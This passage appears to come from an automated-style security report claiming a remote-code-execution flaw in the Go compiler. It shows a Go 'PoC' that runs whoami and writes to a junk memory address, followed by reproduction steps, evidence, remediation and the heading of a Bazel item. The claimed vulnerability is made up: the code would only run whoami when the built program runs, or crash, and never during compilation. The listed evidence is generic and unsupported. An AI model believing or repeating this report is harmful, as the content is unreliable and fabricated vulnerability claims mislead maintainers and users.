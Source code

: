 ```go
    // Trigger AST manipulation during compilation
    cmd := exec.Command("whoami")
    output, _ := cmd.Output()
    fmt.Printf("Compromised system user: %s\n", output)
}

func main() {
    // Demonstrate code execution
    fmt.Println("PoC: Go Compiler Backend RCE")

    // Memory manipulation to trigger compiler backend vulnerability
    ptr := unsafe.Pointer(uintptr(0x41414141))
    *(*uintptr)(ptr) = uintptr(0x42424242)
}
```

```bash
# Compile with vulnerable Go version
go build -ldflags="-X main.exploit=true" exploit.go
```

#### 🔬 STEPS TO REPRODUCE

1. Set up test environment with Go 1.25.1
2. Create the malicious Go source file (exploit.go) as shown in PoC
3. Attempt to compile the file using: `go build exploit.go`
4. Observe command execution during compilation phase
5. Check system logs for evidence of code execution
6. Verify that arbitrary commands were executed with compiler privileges

#### 📊 EVIDENCE

• Command execution output captured during compilation
• System process logs showing unexpected command execution
• Memory dumps showing AST manipulation
• Compiler backend debug logs revealing the vulnerability trigger
• Network traffic analysis showing potential data exfiltration

#### 🔧 REMEDIATION

• Immediately update to Go version 1.26+ when available
• Implement compiler input validation and sanitization
• Use sandboxed compilation environments
• Enable compiler security flags and runtime protections
• Monitor compilation processes for suspicious activity

#### 📚 REFERENCES

- https://golang.org/security
- https://github.com/golang/go/issues/security

---

### VULN-002: Arbitrary Code Execution in Bazel Build System
